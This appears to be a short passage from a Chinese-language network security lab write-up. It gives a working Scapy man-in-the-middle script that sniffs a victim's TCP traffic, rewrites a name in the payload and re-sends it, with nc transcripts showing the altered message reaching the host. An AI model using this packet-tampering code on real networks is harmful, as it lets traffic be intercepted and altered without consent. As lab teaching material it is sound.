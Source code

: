 编写 `mitm.py`：

```python
#!/usr/bin/env python3
from scapy.all import *

print("LAUNCHING MITM ATTACK.........")

def spoof_pkt(pkt):
   newpkt = IP(bytes(pkt[IP]))
   del(newpkt.chksum)
   del(newpkt[TCP].payload)
   del(newpkt[TCP].chksum)

   if pkt[TCP].payload:
       data = pkt[TCP].payload.load
       print("*** %s, length: %d" % (data, len(data)))

       # Replace a pattern
       newdata = data.replace(b'Chenyang', b'AAAAAAAA')

       send(newpkt/newdata)
   else: 
       send(newpkt)

f = 'tcp and ether src 02:42:0a:09:00:05' 
pkt = sniff(iface='eth0', filter=f, prn=spoof_pkt)
```

在 malicious-server 上运行：

```shell
malicious-router-10.9.0.111$ mitm.py
LAUNCHING MITM ATTACK.........
```

在 host 上启动 nc：

```shell
host-192.168.60.5$ nc -lp 9090
```

在 victim 上连接并发送内容：

```shell
victim-10.9.0.5$ nc 192.168.60.5 9090
aaaa
Chenyang
```

host 接收到：

```shell
host-192.168.60.5$ nc -lp 9090
aaaa
AAAAAAAA
```
